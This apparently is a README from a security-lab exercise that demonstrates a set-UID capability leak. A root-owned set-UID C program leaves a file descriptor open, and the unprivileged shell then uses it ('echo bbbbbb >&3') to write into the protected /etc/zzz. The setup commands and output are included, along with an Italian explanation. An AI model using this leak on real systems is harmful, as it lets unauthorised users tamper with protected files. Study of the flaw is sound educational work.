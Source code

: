 # capability-leak-attack
This is a linux bash capability leak attack whit C program.

CAPABILITY LEAKING of set-UID

You need to compile cap_leaking.c
`gcc -o cap_leaking cap_leaking.c`

change the user owner and set the set-UID in the cap_leaking file
`sudo chown root cap_leaking`
`sudo chmod 4755 cap_leaking`


Now if I run the program it print the number of file descriptor.
`fd is 3`
`Real user id is 1000`
`Effective user id is 1000`
`$whoami`
`$seed`
`$echo bbbbbb >&3`
`$cat /etc/zzz`
`$this is a very important file`
` bbbbbb`



######
il problema qua e' che non e' stato chiuso il file descriptor del file 
e la shell che apro ha gli stessi privilegi
il file descriptor e' indicato con il numero 3
normalemente non sono abilitato a scrivere nel file zzz ma quando abilito il 4755 chmod allora apro la shell con gli stessi privilegi di 4755
#####
